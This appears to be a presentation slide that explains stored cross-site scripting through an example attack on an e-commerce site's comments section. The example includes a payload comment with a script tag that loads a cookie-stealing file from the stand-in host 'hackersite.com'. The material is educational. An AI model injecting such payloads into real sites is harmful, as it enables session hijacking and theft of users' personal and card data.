

# Example
While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.
The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.
Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.